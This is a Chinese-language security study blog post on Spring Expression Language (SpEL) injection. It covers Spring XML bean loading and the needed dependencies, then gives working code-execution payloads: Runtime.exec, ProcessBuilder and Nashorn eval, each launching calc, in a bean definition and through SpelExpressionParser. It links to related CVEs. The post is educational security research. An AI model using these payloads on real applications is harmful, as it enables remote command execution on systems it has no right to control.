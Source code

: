 ```yaml
---
title: "spEL表达式注入"
onlyTitle: true
date: 2024-10-14 9:30:23
categories:
- java
- java杂谈
tags:
- SPEL表达式注入
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B8107.jpg
---
```


学C3P0不会jackson，然后滚去学jackson了

学jackson不会spEL，然后滚去学spEL了

学SpEL不会spring，然后滚来学spring了

### spring

spring提供了很多种从xml文件实例化bean的方法。虽然这只是spring的一小部分功能，但这是学java安全的一大部分了（hh

xml的模板如下，每个xml至少都会包括以下内容，算是个规范

```java
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        https://www.springframework.org/schema/beans/spring-beans.xsd">
		...
        ...

</beans>
```



剩下的见5tooc3a blog springRe0：

https://www.yuque.com/5tooc3a/jas/vwovvqh6w86ifrye#

写的非常好，好的我挑不出哪里需要重写，为防止网站挂掉，转载到blog了

## SeEL简介

在 spring3 中引入了 spring 表达式语言(Spring Expression Language)

主要作用是对于基于 XML 文件或者基于注解的 Spring 配置的装载。也就是对IOC容器中的javaBean进行动态属性状态和提取。

SpEL表达式定界符为`#{}`，加载外部属性文件还能用`${}`

pom.xml：

```xml
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>5.3.28</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-expression</artifactId>
            <version>5.3.28</version>
        </dependency>
        <dependency>
            <groupId>commons-logging</groupId>
            <artifactId>commons-logging</artifactId>
            <version>1.2</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>5.3.28</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context</artifactId>
            <version>5.3.28</version>
        </dependency>
```

同样能看：

https://www.yuque.com/5tooc3a/jas/tgmsxhgzn4a615sx#

spEL解析所需的依赖为spring-expression包

### xml文档注入

spring最基础的解析xml，可以用`#{}`表达式搭配`T()`使用其他类的静态方法

`T()`能获取到基础类（并不能实例化），之后就可以调用该类的静态方法

Person类：

```java
public class Person {
    private String name;
    private int age;

    public Person() {
    }

    public String getName() {
        System.out.println(name);
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    @Override
    public String toString() {
        return "Person{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

比如`Runtime.getRuntime().exec`：

```java
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="Person" class="org.exploit.othercase.SpEL.Person">
        <property name="name" value="#{T(java.lang.Runtime).getRuntime().exec('calc')}" />
        <property name="age" value="#{1}" />
    </bean>
</beans>
```

beans.xml放到resources下，利用ClassPathXmlApplicationContext加载xml文档

```java
public class SpELcase {
    public static void main(String[] args) {
        ApplicationContext applicationContext=new ClassPathXmlApplicationContext("beans.xml");
        Person person=applicationContext.getBean("person",Person.class);
        person.getName();
    }
}
```

singleton模式下，Spring加载bean并调用setter进行依赖注入的行为发生在ClassPathXmlApplicationContext加载XML配置文件的过程中，具体来说：

* 加载配置文件阶段：
  当使用ClassPathXmlApplicationContext类来加载一个或多个XML配置文件时，Spring会解析这些配置文件中的bean定义，并将它们注册到IoC容器中。
* bean实例化与依赖注入：
  在这个过程中，对于每个bean，Spring会根据XML中定义的信息创建bean的实例。
  如果bean定义中包含了属性及其setter方法，则Spring会调用这些setter方法来完成依赖注入。
* getBean方法：
  当通过getBean方法从应用上下文中请求某个bean时，Spring实际上是从已经初始化好的bean池中获取该bean的引用。
  此时，bean的实例化和依赖注入工作已经完成。

调用getBean只是从容器中获取已经准备好的bean实例。



singleton和prototype模式的区别：

对于singleton作用域的bean，Spring会在启动时创建一个单例实例，并将其保存在容器中。
对于prototype作用域的bean，Spring不会在启动时创建实例，而是在每次调用getBean方法时创建一个新的实例。

### SpelExpressionParser 注入

SpelExpressionParser.parseExpression进行Spel解析，直接注，无需`#{}`

```java
public class ExpressionTest {
    public static void main(String[] args) {
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('calc')");
        EvaluationContext context = new StandardEvaluationContext();
        expression.getValue(context);
    }
}
```

调用getValue触发表达式的执行

甚至可以直接new对象：

* ProcessBuilder：

```java
Expression expression = parser.parseExpression("new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()");
```

* ScriptEngineManager

```java
Expression expression = parser.parseExpression("new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")");
```



spring cloud gateway SpEL表达式注入CVE-2022-22947：

https://godownio.github.io/2023/04/19/spring-cloud-gateway-cve-2022-22947-spel-biao-da-shi-zhu-ru/

jackson SpEL注入CVE-2017-17485

